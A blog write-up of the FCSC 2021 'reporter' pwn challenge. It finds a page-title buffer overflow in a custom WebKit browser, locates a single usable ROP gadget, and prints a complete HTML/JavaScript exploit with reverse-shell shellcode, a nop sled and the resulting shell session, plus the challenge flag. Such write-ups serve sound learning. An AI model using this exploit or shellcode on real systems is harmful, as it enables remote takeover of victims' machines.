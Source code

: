 +++
title = "[FCSC 2021 - pwn] reporter"
tags = ["ctf", "ret2school", "FCSC", "reporter", "0p", "0poss", "2021"]
date = "2021-05-03"
+++

# Reporter (pwn - 499 pts)

> Vous arrivez dans une nouvelle entreprise qui utilise un navigateur conçu en interne. Pouvez-vous obtenir un shell sur la machine de la personne qui vérifie les liens qu'on lui envoie ?
> http://challenges2.france-cybersecurity-challenge.fr:4009/

## Testing the water
As soon as I saw this description, I got hyped, "Cool a browser exploit !" I thought. "It's the perfect occasion to learn more about WebKit and JavaScriptCore"... What a fool.

Checksec gives us the following output :
![](@attachment/Clipboard_2021-04-30-20-43-43.png)

Keep in mind that there is no NX so we assume that all pages, including the stack and the heap are executable on the remote server.

`ldd fcsc_browser` terminated me :
```bash
libwebkit2gtk-4.0.so.37 => /lib/x86_64-linux-gnu/libwebkit2gtk-4.0.so.37 (0x00007f85355c3000)
libjavascriptcoregtk-4.0.so.18 => /lib/x86_64-linux-gnu/libjavascriptcoregtk-4.0.so.18 (0x00007f2ba5525000)
```
So no exploit for a custom version of WebKit or JSCore...

Jumping in Binary Ninja, we can see a bunch of C++ functions
![](@attachment/Clipboard_2021-04-30-20-55-21.png)

Starting from the top, we have the `addBrowser` function which uses the `memcpy` function to concatenate "FCSC Browser - " with the input string using the size of the input string. Keep that in mind.
![](@attachment/Clipboard_2021-04-30-21-01-16.png)

The `webview_title_change` function calls the `addBrowser` function with the utf8-decoded (with the `decode_utf8` function) page title retrieved with `webkit_web_view_get_title` function.
![](@attachment/Clipboard_2021-04-30-21-01-46.png)

Well then... this is pretty straightforward. Since we control the page title we have an overflow in the `addBrowser` function. That's the good part. The annoying part is that we can't use null bytes since it would terminate our payload.

## Discovering the bug
Create a `index.html` file, run `python3 -m http.server` and start `gdb` with `fcsc_browser` as parameter and run : `r 0.0.0.0:8000` for the browser to load our `index.html` straight away.
Here's its content :
```html
<script>
	var payload = "a";
	payload += "A".repeat(8);
	payload += "B".repeat(8);
	payload += "C".repeat(8);
	payload += "D".repeat(8);
	payload += "E".repeat(8);
	payload += "F".repeat(8);
	payload += "G".repeat(8);
	payload += "H".repeat(8);
	payload += "I".repeat(8);
	payload += "J".repeat(8);
	payload += "K".repeat(8);
	payload += "L".repeat(8);
	payload += "M".repeat(8);
	payload += "N".repeat(8);
	payload += "O".repeat(8);
	payload += "P".repeat(8);
	payload += "Q".repeat(8);
	payload += "R".repeat(8);

	document.title = payload;
</script>
```
We simply use JavaScript to create an "egg finder" that will find how many bytes are required in the title for us to overwrite the return address of the `addBrowser` function.
The little "a" at the beginning is just to make sure that the rest of the payload is 8-bytes aligned, making it easier to read (or maybe only prettier).

Once the browser ran in `gdb`, it segfault at the return of the function and we can see 8 "R"s at the top of the stack... We control the return address at `RRRRRRRR`.
![](@attachment/Clipboard_2021-05-01-22-23-50.png)

## Crafting the ropchain
"Easy !" you would think, as I did, but the absence of a null byte prevents you from crafting any ropchain longer than a single quadword (8 bytes) since pretty much every address contains several null bytes. So either we have to find another vuln that we can chain with this overflow (which I didn't find), or... you have to find a sort of "one ROP gadget" in the binary to jump on our page title.
In order to find every pointer to our input that we can set on top of the stack before `ret`ting, I ran a `gef config context.nb_lines_stack 500; context stack` to display 500 stack addresses containing a pointer to our input. Here they are :
```bash
0x00007fffffffd510│+0x0028: 0x0000000000a2c610  →  "FCSC Browser - aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEE[...]"	 ← $rax
0x00007fffffffd530│+0x0048: 0x00000000006d1b00  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffd550│+0x0068: 0x00000000009c4f20  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffd578│+0x0090: 0x00007fffffffd6f8  →  0x4c4c4c4c4c4c4c4b
0x00007fffffffd5a0│+0x00b8: 0x0000000000ae7090  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffdab0│+0x05c8: 0x00007fffe6efdd3b  →  "0.0.0.0:8000/"
```
The first one isn't viable since "FCSC Browser" aren't valid instructions.
I kept the last one in mind "just in case". We'll maybe have to buy a domain name containing an alphanumerical reverse-shell shellcode...
Using ropper, you can search for a specific semantic such as `reg+=value`, so we'll be searching for `rsp+=[72,104,152,184,1480]`
```
$ ropper --file fcsc_browser --semantic "rsp+=72"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=104"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=152"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=184"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=1480"
[INFO] 0 gadgets found
```
No gadget found. At this point, I entered a phase of despair and since the first stage of grief is denial, I started looking manually for gadgets that increased `rsp` as I wanted before executing `ret` with `ropper --file fcsc_browser`, just in case `ropper` had a bug on the `--semantic` option. Obviously I didn't find any gadget that would increment `rsp` for us before executing `ret`... but I found something quite interesting : `0x000000000040d593: jmp qword ptr [rax];`. Since `rax` is pointing to a heap pointer on the stack, itself pointing to the title, I started looking for something like something like `add BYTE PTR [rax],al` (which is pretty common since its opcode is `00 00`) in order to increment the heap pointer before `jmp qword ptr`ing on it... and there it was... the one gadget :
`0x0000000000403edf: add byte ptr [rax], ah; jmp qword ptr [rax];`
Please take a moment to admire the gadget.

Replace the all the `R` with `payload += String.fromCharCode(0xdf, 0x3e, 0x40);` in order to jump on our gadget.
![](@attachment/Clipboard_2021-05-01-22-59-07.png)
Only one nibble, in this case the four heaviest bits, of the `ah` reg is controlled by the ASLR so we'll just have to send multiple times our exploit in case it doesn't work straight away.
I found [this reverse-shell shellcode](http://shell-storm.org/shellcode/files/shellcode-857.php) and luckily enough, it didn't have any null byte in it. Once modified, craft the final exploit :
```html
<script>
	var payload = "";

	payload += "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a";
	payload += "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0";
	payload += "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24";
	payload += "\x02\x05\x39\xc7\x44\x24\x04" + String.fromCharCode(insert, your, IP, address) + "\x48\x89\xe6\x6a\x10";
	payload += "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48";
	payload += "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a";
	payload += "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54";
	payload += "\x5f\x6a\x3b\x58\x0f\x05";

	payload = payload.padStart(136, "\x90");
	payload += "\x90";
  // 0x0000000000403edf
	payload += String.fromCharCode(0xdf, 0x3e, 0x40);

	document.title = payload;
</script>
```
The `payload.padStart(136, "\x90")` will serve a nop sled to our shellcode to increase the chances of success.
Once the exploit hosted on any IP, rerun a `python3 -m http.server` and send the link.
After a couple tries (actually fifteen), I got my shell :
```bash
$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from received!
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
fcsc_browser
flag
main.py
run.sh
static
templates
cat flag
FCSC{da8089fd6e7a40288a64f88b6a1a8027457206dffbfb28a5c8489a4e1c866e08}
```

Yay !

## Conclusion

There's always a one gadget waiting for you, finding it depends on how much time you want to invest searching it
